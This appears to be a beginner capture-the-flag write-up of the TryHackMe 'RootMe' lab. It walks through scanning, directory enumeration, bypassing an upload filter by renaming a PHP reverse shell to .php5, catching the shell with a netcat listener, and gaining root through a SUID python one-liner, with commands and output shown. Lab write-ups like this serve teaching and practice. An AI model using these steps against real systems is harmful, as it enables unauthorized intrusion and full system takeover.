



# RootMe
A ctf for beginners, can you root me?

## Task 2
First, let's get information about the target. Here is the **nmap** scan.
```
# Nmap 7.91 scan initiated Mon Jun  7 14:53:05 2021 as: nmap -sC -sV -A -oN nmap/scan 10.10.88.87
Nmap scan report for 10.10.88.87
Host is up (0.22s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun  7 14:53:41 2021 -- 1 IP address (1 host up) scanned in 35.82 seconds
```
Seems like we got ssh port open and http port. Let's take look into that web site.



1. Scan the machine, how many ports are open?
```
 2
```
2. What version of Apache is running? 
```
2.4.29
```
1. What service is running on port 22? 
```
ssh
```
5. What is the hidden directory?

Let's run a dirb or gobuster to find the hidden directory on our website. 

```
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

OUTPUT_FILE: dirb.scan
START_TIME: Mon Jun  7 15:01:41 2021
URL_BASE: http://10.10.88.87/
WORDLIST_FILES: /opt/seclist/Discovery/Web-Content/raft-medium-directories.txt
OPTION: Not Recursive

-----------------

GENERATED WORDS: 29984

---- Scanning URL: http://10.10.88.87/ ----
==> DIRECTORY: http://10.10.88.87/js/
==> DIRECTORY: http://10.10.88.87/css/
==> DIRECTORY: http://10.10.88.87/uploads/
==> DIRECTORY: http://10.10.88.87/panel/
```
Seems like we got uploads and something call panel. When we take a look into that panel directory. You can see upload section. This must be our **hidden directory**.


## Task 3
Now we got a upload directory. We can use a php-reverse-shell to get a shell. 

We can't upload php files to this website.I tried other extensions such as jpg, and that uploaded successfully. I tried changing the magic number from PHP to jpg of “FF F8 FF DB“. That uploaded the php reverse-shell script but it won’t execute. Then, I realized maybe it is just filtering the .php extension, so I renamed the script to a .php5 extension. And that uploaded successfully and executed and give me a shell. 


```bash
┌─[visith@parrot]─[~/CTF/thm/root_me]
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.9.2.53] from (UNKNOWN) [10.10.88.87] 35046
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 09:47:11 up 26 min,  0 users,  load average: 0.00, 0.02, 0.23
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ /usr/bin/script -qc /bin/bash /dev/null
www-data@rootme:/$ ls
ls
bin    dev   initrd.img      lib64	 mnt   root  snap      sys  var
boot   etc   initrd.img.old  lost+found  opt   run   srv       tmp  vmlinuz
cdrom  home  lib	     media	 proc  sbin  swap.img  usr  vmlinuz.old
www-data@rootme:/$ 
```

Looks like we got a lot of directories. we can go on by one and search for user.txt or you can use this find command. It will make it fast.
```bash
find / -type f -name user.txt 2>/dev/null
```
Let's see this find command in action.
```bash
www-data@rootme:/$ find / -type f -name user.txt 2>/dev/null
find / -type f -name user.txt 2>/dev/null
/var/www/user.txt
www-data@rootme:/$ cat /var/www/user.txt             
cat /var/www/user.txt
THM{flag_here}
```
Now we need to get to root user. In their hints they told about SUID. Let's take look into it.

```bash
www-data@rootme:/$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```
Looks like python little bit sus. Let's search about python SUID execution on GTFObins. 



Let's do it. First you need to get /usr/bin/ directory to execute our command. 
```bash
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
Let's see it in action.
```bash
www-data@rootme:/usr/bin$ ./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
<hon -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
whoami
root
#  find / -type f -name root.txt
 find / -type f -name root.txt
/root/root.txt
# cat /root/root.txt
cat /root/root.txt
THM{Flag_here}
# 
```

We pwn it... Thx for reading 


